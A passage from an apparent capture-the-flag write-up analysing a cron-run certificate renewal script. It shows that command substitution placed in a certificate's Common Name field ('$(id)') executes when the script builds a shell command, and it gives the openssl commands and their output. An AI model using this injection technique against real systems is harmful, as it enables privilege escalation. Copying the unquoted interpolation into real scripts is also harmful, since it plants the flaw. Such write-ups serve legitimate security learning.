1. a cron job runs, passing the file path `/home/bill/Certs/broscience.crt` to `/opt/renew_cert.sh`
2. if the file exists, the script runs `openssl x509 -in $1 -noout -checkend 86400 > /dev/null`
3. the script exits on a zero response (i.e. cert hasn't expired).
4. Otherwise, we extract the subject from the certificate file with `openssl x509 -in $1 -noout -subject | cut -d "=" -f2-`
5. We extract out other cert information
6. we use openssl to generate a new certificate to `/tmp/temp.crt`
7. We copy the temp cert back to `/home/bill/Certs/$commonName.crt` with `/bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"`

I took a copy of the above script to play around with locally, and tried command injection on a certificate until I found the common name field works -- here, we set a cert with 1 day expiry, and do command substitution of `$(id)` for common name, which we can see runs when the renew script executes:

```bash
$openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 1
Generating a RSA private key
.........................................++++
.........................................................................................................................++++
writing new private key to '/tmp/temp.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:AU
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(id)
Email Address []:

$/bin/bash renew_cert.sh /tmp/temp.crt 
C = AU, ST = Some-State, O = Internet Widgits Pty Ltd, CN = $(id)

Country     => AU
State       => Some-State
Locality    => 
Org Name    => Internet Widgits Pty Ltd
Org Unit    => 
Common Name => $(id)
Email       => 

Generating certificate...
mv: target 'groups=1003(zara),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),108(netdev),119(bluetooth),128(vboxsf),1000(lpadmin),1001(scanner),1002(docker).crt' is not a directory

```
